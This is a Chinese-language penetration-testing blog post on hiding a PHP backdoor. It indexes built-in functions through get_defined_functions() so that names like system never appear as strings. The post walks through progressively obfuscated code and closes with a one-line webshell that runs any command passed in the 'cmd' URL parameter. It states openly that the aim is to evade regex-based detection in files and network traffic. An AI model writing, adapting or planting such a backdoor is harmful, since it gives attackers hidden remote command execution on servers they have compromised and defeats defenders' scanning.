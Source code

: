 ```yaml
---
layout:     post
title:      "Using get_defined_functions To Hidden A PHP Backdoor"
date:       2017-08-17
categories: [PHP, Pentest]

---
```


webshell隐藏是渗透当中一个很重要的权限维持技术，目前也有各种各样的隐藏方法，pen-tester的思路也越来越开放(weisuo)。这篇文章主要记录一下利用get_defined_functions()来隐藏webshell的方法，不是什么新技术，但也值得摸索。

关于get_defined_functions()就不在这里介绍了，大家直接去翻官方文档即可，这里看一下还函数的执行结果应该也能明了。

![func_arry](http://reverse-tcp.xyz/static/img/posts/get_defined_functions/func_arry.png)

以下是一个该函数在webshell里边利用的一个思路，主要是可以隐藏危险函数字符串，而利用正则去文件系统及网络流量上匹配危险函数的安全防护对此也就无效了，先看代码：

```php
<?php
function callfunc() {

    $func = get_defined_functions();  //函数自己完成所有函数的枚举，成为list
    $args = func_get_args();  //获取传入参数值
    $func_id = array_shift($args);  //获取传入的函数所代表的list key
    $func_name = $func['internal'][$func_id];  //以key来索引函数名

    return call_user_func_array($func_name, $args);  //调用回调函数，传参执行
}
print callfunc(460, "whoami");
?>
```

这里自定义了一个callfunc函数，将system函数以索引460传入，并在call_user_func_array()函数执行

![callfunc](http://reverse-tcp.xyz/static/img/posts/get_defined_functions/callfunc.png)

按照这个套路我们继续将*func_get_args()*、*array_shift()*、*call_user_func_array()*也用*get_defined_functions()*来调用，那么就变成了这样

```php
<?php
function callfunc() {

    $func = get_defined_functions();
    $args = $func['internal'][3]();
    $func_id = $func['internal'][805]($args);
    $func_name = $func['internal'][$func_id];

    return $func['internal'][556]($func_name, $args);
}
print callfunc(460, 'whoami');
?>
```

当然也可以是这样

```php
<?php
function callfunc() {

    $func = get_defined_functions()['internal'];
    $args = $func[3]();
    $func_id = $func[805]($args);
    $func_name = $func[$func_id];
    return $func[556]($func_name, $args);
}
print callfunc(460, 'whoami');
?>
```

最后我们将自定义函数名及所有变量名缩短，只留一个核心get_defined_functions()函数即可

```php
<?php
function f() {

    $a = get_defined_functions()['internal'];
    $s = $a[3]();
    $b = $a[805]($s);
    $c = $a[$b];
    return $a[556]($c, $s);
}
print f(460, 'whoami');
?>
```

**无特征webshell**

最后我们将所需要执行的命令及想要使用的函数key以参数方式提交，这样就可以完全避免掉危险函数字符串而不通过任何编码，并且相当自由化，你可以用system可以用exec等等。

```php
<?php function f() { $a = get_defined_functions()['internal'];$s = $a[3]();$b = $a[805]($s);$c = $a[$b];return $a[556]($c, $s); }print f($_GET['id'], $_GET['cmd']);?>
```

![wenshell](http://reverse-tcp.xyz/static/img/posts/get_defined_functions/webshell.png)

